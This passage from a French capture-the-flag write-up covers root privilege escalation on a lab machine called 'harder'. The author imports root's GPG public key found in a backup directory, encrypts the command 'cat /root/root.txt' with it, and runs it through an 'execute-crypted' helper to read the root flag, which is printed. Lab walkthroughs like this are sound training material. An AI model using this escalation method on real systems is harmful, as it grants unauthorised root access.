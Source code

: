 On remarque dans le script il y a une clef quelque part.  

```bash
harder:/$ find / -name root@harder.* 2>/dev/null
/var/backup/root@harder.local.pub
```

On trouve la clef.  

```bash
harder:/$ harder:~$ gpg --import /var/backup/root@harder.local.pub
-ash: harder:~$: not found
harder:/$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
```

On importe la clef.  

```bash
harder:/$ cd /tmp
harder:/tmp$ echo -n cat /root/root.txt > command

harder:/tmp$ gpg -er root command 
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
```

On met la commande que l'on veut passer dans un fichier command.   
On encode le fichier command.   

```bash
harder:/tmp$ ls             
client_temp                      command.gpg                      proxy_temp_path                  sess_dv9q9a2oqv6iunj6dh4s80tmqp  uwsgi_temp
command                          fastcgi_temp                     scgi_temp                        sess_utu0095om9rr89vk98njrm2t2t

harder:/tmp$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7bd72672889e0756b09f0566935a6c
```

On exécute notre commande est on a notre flag.  

La réponse est : 3a7bd72672889e0756b09f0566935a6c   
